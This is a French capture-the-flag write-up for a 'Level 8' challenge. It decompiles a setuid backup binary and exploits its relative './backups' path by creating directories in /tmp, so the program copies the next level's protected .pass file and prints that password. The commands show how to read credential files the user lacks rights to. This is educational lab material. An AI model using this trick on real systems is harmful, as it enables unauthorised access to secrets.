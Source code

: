 # Level 8

On commence par tester l'exécutable.

```
> ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Le programme attend un argument et semble ouvrir un fichier.
Regardons un peu le code décompilé. 

```C
log_wrapper(arg1, "Starting back up: ", argv[1]);
iVar3 = fopen(argv[1], 0x400da9, 0x400da9);
if (iVar3 == 0) {
	printf("ERROR: Failed to open %s\n", argv[1], argv[1]);
	exit(1);
}
```
L'exécutable attend donc bien un argument, et va ouvrir le fichier en paramètre.
On peut alors tenter de mettre le `path` du `password` de `level09` en argument du programme.

```
> ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
L'exécutable nous met un message d'erreur. Nous pouvons supposer que le programme va créer une copie du fichier passé en argument puis va insérer tout cela dans le dossier `backups` suivi du `path` saisis en paramètres. Un fichier de `log` va également être créé avec les différentes informations du `process`.  Le `path` indiqué est un `path` relatif, cela va nous servir pour réaliser un exploit. 

Pour vérifier notre hypothèse, nous allons créer un fichier `test` dans `/tmp` avec une phrase dedans. Puis nous allons lancer le programme avec notre fichier fraîchement créé comme argument.

```
> cd /tmp
> python -c "print 'super verif'" > /tmp/test
> ~/level08 /tmp/test
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /tmp/test
ERROR: Failed to open ./backups//tmp/test
> mkdir -p ./backups//tmp
> ~/level08 /tmp/test
> cat backups/tmp/test
super verif
```

Nous avons donc crée notre fichier avec du texte dedans. En lançant l'exécutable, nous avons eu plusieurs erreurs, car le dossier `./backups//tmp` n'existait pas. Le programme ne pouvait donc pas copier le résultat du fichier `test` dedans.
Notre hypothèse est vérifié. Nous pouvons donc faire la même manipulation avec le `path` du `password` du `level09`.

```
> cd /tmp
> rm -rf *
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
> mkdir ./backups
> ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
> mkdir -p ./backups//home/users/level09
> ~/level08 /home/users/level09/.pass
> cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Nous obtenons bien le `password` du `level09`.